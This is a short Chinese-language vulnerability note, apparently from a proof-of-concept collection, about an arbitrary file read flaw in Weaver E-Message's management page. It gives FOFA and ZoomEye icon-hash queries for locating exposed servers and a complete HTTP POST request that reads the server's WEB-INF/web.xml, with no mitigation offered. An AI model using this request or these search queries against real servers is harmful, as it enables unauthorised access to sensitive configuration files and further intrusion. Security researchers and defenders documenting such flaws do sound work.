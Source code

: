 # e-message管理页面文件读取漏洞

## 漏洞描述

泛微E-Message是一款企业邮件系统，任意文件读取漏洞通常是指通过漏洞可以访问服务器上的任意文件，这可能导致敏感信息泄露。

![image-20240423230501202](.\assets\image-20240423230501202.png)

## 网空引擎

**FOFA:** icon_hash="-1477694668"

**zoomeye:** iconhash: "-1477694668"

![image-20240423230441788](.\assets\image-20240423230441788.png)

![image-20240423232239648](.\assets\image-20240423232239648.png)

## POC

```
POST / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Length: 43
Cache-Control: max-age=0
Connection: close
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate

decorator=%2FWEB-INF%2Fweb.xml&confirm=true
```

